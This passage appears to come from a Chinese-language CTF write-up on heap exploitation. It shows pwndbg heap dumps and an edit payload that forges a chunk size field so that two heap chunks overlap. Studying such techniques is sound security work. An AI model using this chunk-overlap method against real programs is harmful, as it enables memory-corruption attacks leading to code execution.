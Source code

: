 在0x040那个地方开始是chunk2

chunk1在0x020

现在就有了重叠部分

我们还要改下chunk1去写入chunk2的大小

```c
pwndbg> x/32gx 0x5636130a7000
0x5636130a7000:	0x0000000000000000	0x0000000000000021
0x5636130a7010:	0x6161616161616161	0x6161616161616161
0x5636130a7020:	0x0000000000000020	0x00000000000000a1
0x5636130a7030:	0x0000000000000000	0x0000000000000000
0x5636130a7040:	0x0000000000000000	0x0000000000000000
0x5636130a7050:	0x0000000000000000	0x0000000000000000
0x5636130a7060:	0x0000000000000000	0x0000000000000000
0x5636130a7070:	0x0000000000000000	0x0000000000000000
0x5636130a7080:	0x0000000000000000	0x0000000000000000
0x5636130a7090:	0x0000000000000000	0x0000000000000000
0x5636130a70a0:	0x0000000000000000	0x0000000000000000
0x5636130a70b0:	0x0000000000000000	0x0000000000000000
0x5636130a70c0:	0x0000000000000000	0x0000000000000021
0x5636130a70d0:	0x0000000000000000	0x0000000000000000
0x5636130a70e0:	0x0000000000000000	0x0000000000000021
0x5636130a70f0:	0x0000000000000000	0x0000000000000000

```

edit(1,0x20,p64(0)*2+p64(0)+p64(0xa1))

现在就很清楚了chunk1和chunk2重合部分

从0x040到0x0b0

```c
pwndbg> x/32gx 0x557b9da9d000
0x557b9da9d000:	0x0000000000000000	0x0000000000000021
0x557b9da9d010:	0x6161616161616161	0x6161616161616161
0x557b9da9d020:	0x0000000000000020	0x00000000000000a1
0x557b9da9d030:	0x0000000000000000	0x0000000000000000
0x557b9da9d040:	0x0000000000000000	0x00000000000000a1
0x557b9da9d050:	0x0000000000000000	0x0000000000000000
0x557b9da9d060:	0x0000000000000000	0x0000000000000000
0x557b9da9d070:	0x0000000000000000	0x0000000000000000
0x557b9da9d080:	0x0000000000000000	0x0000000000000000
0x557b9da9d090:	0x0000000000000000	0x0000000000000000
0x557b9da9d0a0:	0x0000000000000000	0x0000000000000000
0x557b9da9d0b0:	0x0000000000000000	0x0000000000000000
0x557b9da9d0c0:	0x0000000000000000	0x0000000000000021
0x557b9da9d0d0:	0x0000000000000000	0x0000000000000000
0x557b9da9d0e0:	0x0000000000000000	0x0000000000000021
0x557b9da9d0f0:	0x0000000000000000	0x0000000000000000

```
